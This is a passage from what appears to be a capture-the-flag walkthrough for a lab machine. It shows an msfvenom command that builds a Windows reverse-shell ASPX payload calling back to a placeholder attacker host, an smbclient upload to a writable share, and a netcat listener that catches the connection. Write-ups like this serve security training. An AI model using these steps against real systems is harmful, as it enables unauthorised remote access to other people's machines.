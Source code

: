 
After verifying that it is the shared folder, I used msfvenom to generate a payload which when executed will give me a reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI> LPORT=8081 -f aspx > relevant.aspx
```
![generating_payload](../pictures/relevant/payload_generate.png)



I used smbclient to connect to the share in order to upload my reverse shell script:
```
smbclient //$IP/nt4wrksv -U 'Bob'
```
![shell_upload](../pictures/relevant/shell_upload.png)

After uploading I setup a netcat listener on port 8081 and visited the uploaded aspx file, in return I got a connection to my listener from the target machine.

![initial_access](../pictures/relevant/initial_access.png)

---